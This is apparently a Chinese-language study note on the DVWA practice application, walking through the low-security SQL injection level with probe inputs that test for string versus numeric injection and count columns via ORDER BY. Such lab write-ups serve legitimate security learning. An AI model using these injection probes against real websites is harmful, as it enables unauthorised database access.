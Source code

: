 ```yaml
---
title: DVWA学习笔记
date: 2020-02-11 09:42:41
id: 20200211094241
toc: true
categories: 网络安全
tags:
	- DVWA
---
```


# sql injection：

## low

首先，通过返回的报错信息判断是否存在注入点，并判断注入点的类型是`数字型`还是`字符型`。

```mysql
# 判断注入可以直接输入'或1’
# 首先判断是否为数字型的
1 and 1=1					# 有返回
1 and 1=2					# 有返回
# 证明该处的逻辑后台并没有进行处理

# 测试字符型
1' and '1'='1 		# 有返回
1' and '1'='2			# 无返回
# 证明这里的逻辑后台处理了，因此判断该处为字符型注入
```

![image-20200211193753241](DVWA学习笔记/image-20200211193753241.png)

知道存在字符型注入点，现在要测试有几个字段，构造sql语句：

```mysql
1' order by 3;#
1' order by 2;#
```

![image-20200211193622250](DVWA学习笔记/image-20200211193622250.png)

![image-20200211193706953](DVWA学习笔记/image-20200211193706953.png)

